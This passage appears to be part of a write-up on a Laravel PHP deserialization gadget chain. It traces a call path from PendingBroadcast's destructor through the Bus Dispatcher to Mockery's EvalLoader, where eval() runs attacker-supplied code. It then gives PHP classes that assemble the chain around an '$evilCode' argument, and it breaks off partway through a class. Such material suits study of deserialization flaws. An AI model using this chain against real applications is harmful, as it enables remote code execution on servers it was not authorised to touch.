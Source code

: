 ```
--> Illuminate/Broadcasting/PendingBroadcast::__destruct()
--------> Illuminate/Bus/Dispatcher::dispatch()
--------------> Illuminate/Bus/Dispatcher::dispatchToQueue()
--------------------> call_user_func()
--------------------------> Mockery/Loader/EvalLoader::load()
--------------------------------> eval()
```

It ends in a eval call from the `EvalLoader::load` function, with our arbitrary code as the argument.

```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;

        function __construct()
        {
            $this->queueResolver = [new \Mockery\Loader\EvalLoader(), 'load'];
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;

        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

    class BroadcastEvent {
        public $connection;

        function __construct($evilCode)
        {
            $this->connection = new \Mockery\Generator\MockDefinition($evilCode);
        }

    }
}

namespace Illuminate\Support {
        class MessageBag {
                protected $messages = [];
                protected $format;

                function __construct($inner) {
                        $this->format = $inner;
                }
        }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Mockery\Generator {
    class MockDefinition {
```